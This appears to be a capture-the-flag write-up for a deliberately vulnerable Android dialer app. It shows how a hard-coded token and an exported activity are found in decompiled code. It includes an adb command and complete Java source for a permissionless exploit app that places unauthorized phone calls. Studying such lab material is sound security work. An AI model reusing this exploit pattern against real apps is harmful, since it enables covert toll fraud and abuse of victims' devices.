





# AndroDialer Challenge 3

## Overview

AndroDialer is a full‑featured dialer app that brings together smart contact organization, customizable quick‑dial widgets, and a “Business Focus” mode that filters interruptions so you stay in control of every conversation. It delivers in‑depth call analytics to help you spot communication trends, plus enhanced security features. Its highly adaptable interface is complete with light and dark themes, call‑time limits, and fully personalized settings.

## Objective

Create a malicious application that exploits the AndroDialer application to initiate unauthorized phone calls to arbitrary numbers without the victim's knowledge or consent.

The exploit must work on non-rooted Android devices running versions up to Android 15 and must not require any runtime permissions to be explicitly granted by the victim, making it appear harmless to users during installation.

## Jadx-gui

Using jadx-gui, the decompiled code was obfuscated but key parts were clear enough to figure out the vulnerability path.

In the AndroidManifest.xml, the `CallHandlerServiceActivity` was the clear target. It was an exported activity and declared an intent filter for `PERFORM_CALL`.

<figure style="margin: 0; width: 800px;">
  
  <figcaption style="text-align: center;">
    <em>Figure 1: CallHandlerServiceActivity declares PERFORM_CALL intent filter.</em>
  </figcaption>
</figure>

During the parsing of the intent string extras, the security token `enterprise_auth_token` was read and the data can be attacker controlled.

<figure style="margin: 0; width: 800px;">
  
  <figcaption style="text-align: center;">
    <em>Figure 2: enterprise_auth_token string.</em>
  </figcaption>
</figure>

Further down in the code, the `enterprise_auth_token` was compared against variations of a hard-coded token. At this point, the authorization token has been recovered and can be supplied to the activity to satisfy the authorization check. Additionally, it parsed the string extra `phoneNumber` and this data can be attacker controlled too.

<figure style="margin: 0; width: 800px;">
  
  <figcaption style="text-align: center;">
    <em>Figure 3: enterprise_auth_token validation and phoneNumber string extra.</em>
  </figcaption>
</figure>

At the end of the `onCreate()`, the `phoneNumber` was packaged up in the intent `android.intent.action.CALL` and `startActivity` was called to perform the actual phone call.

<figure style="margin: 0; width: 800px;">
  
  <figcaption style="text-align: center;">
    <em>Figure 4: android.intent.action.CALL.</em>
  </figcaption>
</figure>

> **Note:** During analysis of the decompiled code, the action `PERFORM_CALL` was never used. This means an intent can be sent to this activity without specifying the `PERFORM_CALL` action.

### Verification of Analysis

Running Android’s Activity Manager command-line tool on the device and asking it to start the CallHandlerServiceActivity activity yielded a successful unauthorized phone call.

```bash
adb shell am start -W \
  -n com.eightksec.androdialer/.CallHandlerServiceActivity \
  --es enterprise_auth_token 8kd1aL3R_s3Cur3_k3Y_2023 \
  --es phoneNumber 5551234567
  ```

  Phone call successfully made.

<figure style="margin: 0; width: 400px;">
  
  <figcaption style="text-align: center;">
    <em>Figure 5: Successful unauthorized phone call.</em>
  </figcaption>
</figure>


## Exploit Design

The design was straightforward. It required sending an intent to the `CallHandlerServiceActivity`. Since the action `PERFORM_CALL` was never checked by the activity in the `onCreate()` function, the only things that needed packaging up were `enterprise_auth_token` and `phoneNumber` string extras. Because `CallHandlerServiceActivity` is exported, the exploit application can target it directly with an explicit intent.

## Exploit Code

The following code highlights the exploit process.

### MainActivity.java

The exploit application does not request the CALL_PHONE permission or require any runtime permissions. The privileged call is performed by AndroDialer through its exported CallHandlerServiceActivity.

```Java
package com.example.challenge3app;

import android.content.Intent;
import android.os.Bundle;

import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent intent = new Intent();

        intent.setClassName(
                "com.eightksec.androdialer",
                "com.eightksec.androdialer.CallHandlerServiceActivity"
        );

        intent.putExtra(
                "enterprise_auth_token",
                "8kd1aL3R_s3Cur3_k3Y_2023"
        );

        intent.putExtra("phoneNumber", "5551234567");

        startActivity(intent);
    }
}
```

## Exploitation Process

Install the victim app on a non-rooted emulator - Pixel 8 API 35 device:

```bash
adb install -r -g -t AndroDialer.apk
```

Install the exploit app on the non-rooted emulator:

```bash
adb install -r -t exploit-debug.apk
```

### Successful Result

Next, click the exploit app to start up. A phone call should occur at that moment.

> **Note:** Calls initiated through the exported `CallHandlerServiceActivity` were recorded in Android's system call log. AndroDialer's own Recent Calls view did not update immediately and reflected the call only after a delay/refresh. In contrast, calls placed through AndroDialer's standard UI appeared in its Recent Calls view immediately.
